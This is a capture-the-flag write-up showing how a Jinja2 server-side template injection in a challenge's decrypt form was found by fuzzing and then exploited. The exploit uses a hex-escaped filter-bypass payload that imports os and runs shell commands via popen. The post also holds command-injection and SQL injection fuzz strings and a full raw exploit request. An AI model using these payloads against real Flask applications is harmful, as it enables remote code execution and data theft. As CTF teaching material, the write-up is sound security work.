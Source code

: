 - 2020-10-23
- Reply CTF: Server Side Template Injection

# Prelude

This a 200 point web challenge as part of a Jepordy style CTF event hosted by [Reply](https://challenges.reply.com/). This post discusses how a sever side template injection vulnerability was identified then exploited while bypassing a filter.

## TL;DR

Webpage consisted of a HTML form to decrypt input using a symmetric cipher. If an encoded Jinja2 template was decoded, the template was executed server-side. A filter was present which banned all Python operators, built-in functions, and keywords as well as Jinja2 built-in functions/globals which was bypassed using escaped strings to access request arguments to include banned tokens. By working around the filter it was possible to produce a payload (decoded):

```py
{% raw %}
{{((((((((request|attr('a\x70\x70lication'))|attr((request|attr('f\x6frm'))['a\x72gs']))[(
request|attr('f\x6frm'))['a\x72gs2']])[(request|attr('f\x6frm'))['a\x72gs3']])((request|at
tr('f\x6frm'))['a\x72gs4']))|attr((request|attr('f\x6frm'))['a\x72gs5']))((request|attr('f
\x6frm'))['a\x72gs6']))|attr((request|attr('f\x6frm'))['a\x72gs7']))()}}
{% endraw %}

# which is equivalent to

getattr(getattr(getattr(request.application, "__globals__")["__builtins__"]["__import__"](
"os"), "popen")("cat flag/flag.txt"), "read")()

# which is equivalent to

import os;
os.popen("cat flag/flag.txt").read()
```

# Start

The webpage consists of a HTML form and two `textarea`'s for input and output; below is an image.

![webpage](assets/reply_web200.png)

Inspecting the page source uncovers a comment.

```html
{% raw %}
<!-- Created by P0n0 -->
{% endraw %}
```

Wasting half an hour trying to find "P0n0" using OSINT made it clear this was a waste of time. Focusing on the webpage, the webpage itself would: allow a user to input ciphertext, send the form to the webserver, then the server would place the plaintext into the adjacent `textarea`. It was discovered that the cipher being used was symmetric (though the identity of the cipher was unknown).

| Ciphertext | | Plaintext |
--- | | ---
this is a test | : | E9:D :D 2 E6DE
E9:D :D 2 E6DE | : | this is a test

A web-browser became limiting once the user facing aspects of the page were investigated, [BurpSuite](https://portswigger.net/burp) became useful to log, inspect, and modify requests made to the webserver. The requests to decrypt data were generic HTTP POST requests with form data which included a `cipher` field.

![BurpSuite](assets/reply_web200_burp.png)

There were several possibilities at this point depending on the programming language/environment being used by the webserver:
- [Type Juggling](https://www.youtube.com/watch?v=ASYuK01H3Po) (PHP)
- [Buffer Overflow](https://www.cloudflare.com/learning/security/threats/buffer-overflow/) (C, C++, etc.)
- Miscellaneous exploitation (e.g. inserting `NUL` characters into the ciphertext).

## Fuzzing

SSTI was not considered at this point because the webpage did not look immediately exploitatable. Type Juggling and Buffer Overflows were not possible which left Miscellaneous exploitation. A few hand written payloads were attempted before BurpSuite's [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) feature was utilised. The intruder feature allowed for automatic fuzzing of the `cipher` parater using a generic webapp wordlist (a sample is listed below).

```
%0Acat%20/etc/passwd
%0Aid
%0a id %0a
%0Aid%0A
%0a ping -i 30 127.0.0.1 %0a
%0A/usr/bin/id
%0A/usr/bin/id%0A
```

![Sniper output](assets/reply_web200_sniper.png)

Looking at the sizes of the responses we see that two payloads had a significantly smaller page size which suggested there was an error during processing, sending this request in burp we see this for ourselves.

```
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
```

![Internal error](assets/reply_web200_error.png)

While disecting the above payloads we discovered "LL" would break the server, decrypting this gave {% raw %} {{ {% endraw %} which immediately meant this was an SSTI vulnerability.

# SSTI

Knowing it was SSTI was due to knowing the templating engine [Jinja2](https://jinja.palletsprojects.com/en/2.11.x/) (used by [Flask](https://flask.palletsprojects.com/en/1.1.x/)) uses {% raw %} {{ {% endraw %} for marking the start of templates. The next step was to look at the Jinja2 documentation to see how a request can be crafted to access information on the webserver. The documentation mentioned that there are specific [global varaibles](https://jinja.palletsprojects.com/en/2.11.x/api/#global-namespace) available within templates, inspecting this on a local machine saw that the Flask [`request`](https://werkzeug.palletsprojects.com/en/1.0.x/wrappers/#werkzeug.wrappers.BaseRequest) object and [`config`](https://flask.palletsprojects.com/en/1.1.x/api/#configuration) object was available. To learn more about the webserver, the payload {% raw %} {{config}} {% endraw %} was encoded then decoded.

![Flask configuration](assets/reply_web200_config.png)

There is an entry: `'SECRET_KEY': '}FLG:ThisIsTheRightFlag!{'` which is a false flag (literally), we have to exploit the webserver. To do this, we successively modify the below script until we can encode then execute it on the server.

```py
import os
os.popen("cmd").read()
```

We can only execute single statements within the template because `;` is escaped - there is a filter. Consequently, we have to inline the payload. To achieve this we use the underlying function [`__import__`](https://docs.python.org/3/library/functions.html#__import__) facilitating the `import` keyword.

```py
__import__("os").os.open("cmd").read()
```

`__import__` is filtered.

![filter](assets/reply_web200_filter.png)

To indirectly reference `__import__` we can access it through [`__builtins__`](https://docs.python.org/3/library/builtins.html) (a value containing all built-in objects) using `getattr` (the function invoked for the `.` operator).

```py
__builtins__["__import__"]("os").open("cmd").read()
```

`__builtins__` is also filtered which presents a new problem since there is no way to indirectly access `__builtins__` from an arbitrary namespace. However, Flask has an [`application`](https://flask.palletsprojects.com/en/1.1.x/api/#flask.Request.application) object accessible from the `request` object which represents the Flask application and includes the application's **namespace**. We cannot refer to the object `__builtins__` so we need to access by referencing it as a string, this is achieveable with [`__getitem__`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__) which is the underlying function for the `[]` operator (we use the high-level syntax for reasons made clear later).

```py
getattr(request.application, "__builtins__")["__import__"]("os").open("cmd").read()
```

`getattr` and `.` are filtered which presents another problem because there is no way to access the atttribute of an object in Python without using either or these. However, Jinja2 has [built-in](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters) functions for templates accessible from Python. One such function is [`attr`](https://jinja.palletsprojects.com/en/2.11.x/templates/#attr) which can get the attribute of an object using the `|` operator (the `attr` function itself is filtered).

```py
(((((request|attr("application"))|attr("__builtins__"))["__import__"]("os")|attr("open"))|
attr("cmd"))|attr("read"))()
```

`"application"` is filtered and there is _no other way_ to get the `application` object a better understanding of the filter is required. The filter likely considers each character individually prior to substitution so we can potentially escape characters which passes a static evaluation but is evaluated as the correct value at runtime. To save time, all Python operators are filtered as well as implicit string literal concetenation (e.g. `"a" "b" == "ab"`). Hex encoding can split a character from a static perspective: `"application" == "a\x70\x70lication"`.

```py
(((((request|attr('a\x70\x70lication'))|attr("__builtins__"))["__import__"]("os")|attr("op
en"))|attr("cmd"))|attr("read"))()
```

Double quotes are filtered along with a subset of strings using apostrophes. To combat this, additional arguments can be provided in the request which contain the filtered tokens which can be substituted into the payload (bypassing static analysis). The arguments can be accessed using `request.application.form.<ARGUENT>`.

```py
((((((((request|attr('a\x70\x70lication'))|attr((request|attr('f\x6frm'))['a\x72gs']))[(re
quest|attr('f\x6frm'))['a\x72gs2']])[(request|attr('f\x6frm'))['a\x72gs3']])((request|attr
('f\x6frm'))['a\x72gs4']))|attr((request|attr('f\x6frm'))['a\x72gs5']))((request|attr('f\x
6frm'))['a\x72gs6']))|attr((request|attr('f\x6frm'))['a\x72gs7']))()
```

(`"form"` and `"args"` is escaped, hence the hex encoding). The request arguments contain the strings above in order for the request to succeed. Putting this payload into Burp then sending it yields:

![flag](assets/reply_web200_flag.png)

The raw request is listed below:

```
POST /0b7d3eb5b7973d27ec3adaffd887d0e2/ HTTP/1.1
Host: gamebox1.reply.it
Content-Length: 1144
Origin: http://gamebox1.reply.it
Content-Type: application/x-www-form-urlencoded

cipher=%4c%4c%57%57%57%57%57%57%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%32%2d%49
%66%5f%2d%49%66%5f%3d%3a%34%32%45%3a%40%3f%56%58%58%4d%32%45%45%43%57%57%43%36%42%46%36%44
%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%56%2e%58
%58%2c%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32
%2d%49%66%61%38%44%61%56%2e%2e%58%2c%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49
%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%62%56%2e%2e%58%57%57%43%36%42%46%36%44%45
%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%63%56%2e%58
%58%4d%32%45%45%43%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56
%58%58%2c%56%32%2d%49%66%61%38%44%64%56%2e%58%58%57%57%43%36%42%46%36%44%45%4d%32%45%45%43
%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32%2d%49%66%61%38%44%65%56%2e%58%58%4d%32%45%45
%43%57%57%43%36%42%46%36%44%45%4d%32%45%45%43%57%56%37%2d%49%65%37%43%3e%56%58%58%2c%56%32
%2d%49%66%61%38%44%66%56%2e%58%58%57%58%4e%4e&args=__globals__&args2=__builtins__&args3=__
import__&args4=os&args5=popen&args6=cat%20flag/flag.txt&args7=read
```
